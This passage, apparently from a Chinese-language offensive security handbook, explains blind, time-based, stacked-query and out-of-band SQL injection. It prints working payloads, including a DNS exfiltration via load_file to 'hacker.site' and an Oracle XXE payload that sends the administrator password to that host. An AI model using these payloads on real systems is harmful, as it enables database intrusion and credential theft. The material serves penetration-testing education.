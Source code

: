 这与之前的**情况相同**，但不是区分查询的真/假响应，而是可以**区分**SQL查询中的**错误**与否（可能是因为HTTP服务器崩溃）。因此，在这种情况下，每次正确猜测字符时，您可以强制产生一个SQL错误：
```sql
AND (SELECT IF(1,(SELECT table_name FROM information_schema.tables),'a'))-- -
```
## 利用基于时间的 SQLi

在这种情况下，**没有**任何方法可以根据页面的上下文来**区分**查询的**响应**。但是，如果猜测的字符是正确的，您可以使页面**加载时间更长**。我们已经在之前看到过这种技术用于[确认 SQLi 漏洞](./#confirming-with-timing)。
```sql
1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#
```
## Stacked Queries

您可以使用堆叠查询来**连续执行多个查询**。请注意，尽管后续查询会被执行，但**结果**不会**返回给应用程序**。因此，这种技术主要用于与**盲漏洞**相关的情况，在这种情况下，您可以使用第二个查询触发DNS查找、条件错误或时间延迟。

**Oracle**不支持**堆叠查询**。**MySQL、Microsoft**和**PostgreSQL**支持它们：`QUERY-1-HERE; QUERY-2-HERE`

## Out of band Exploitation

如果**没有其他**利用方法**有效**，您可以尝试使**数据库将**信息外泄到您控制的**外部主机**。例如，通过DNS查询：
```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
```
### 通过 XXE 进行带外数据泄露
```sql
a' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.hacker.site/"> %remote;]>'),'/l') FROM dual-- -
```
## 自动化利用

查看 [SQLMap Cheatsheet](sqlmap/) 以利用 SQLi 漏洞与 [**sqlmap**](https://github.com/sqlmapproject/sqlmap)。

## 技术特定信息

我们已经讨论了利用 SQL 注入漏洞的所有方法。在本书中找到一些更多依赖于数据库技术的技巧：

* [MS Access](ms-access-sql-injection.md)
* [MSSQL](mssql-injection.md)
* [MySQL](mysql-injection/)
* [Oracle](oracle-injection.md)
* [PostgreSQL](postgresql-injection/)

或者你会在 [**https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) 找到关于 MySQL、PostgreSQL、Oracle、MSSQL、SQLite 和 HQL 的**许多技巧**。

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>
